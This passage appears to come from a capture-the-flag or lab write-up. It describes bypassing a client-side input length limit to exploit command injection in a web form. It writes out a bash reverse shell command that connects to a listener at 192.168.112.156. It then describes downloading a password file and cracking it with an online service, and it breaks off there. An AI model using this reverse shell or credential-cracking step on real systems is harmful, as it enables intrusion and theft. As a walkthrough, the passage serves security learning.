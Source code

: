 ![pasted](./Pasted_image_20250507224132.png)

The input field has a 32-character limit, but it's enforced only on the client side. We can bypass this restriction easily using browser developer tools.

This behavior hints at a potential command injection vulnerability. To test it, we inject a reverse shell command:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.112.156/1234 <&1'
```


This connects back to our listener and gives us a shell:

![pasted](./Pasted_image_20250503032028.png)

Exploring one level down in the directory tree, we find a password file. After downloading it, we use [CrackStation](https://crackstation.net) to successfully crack the password:
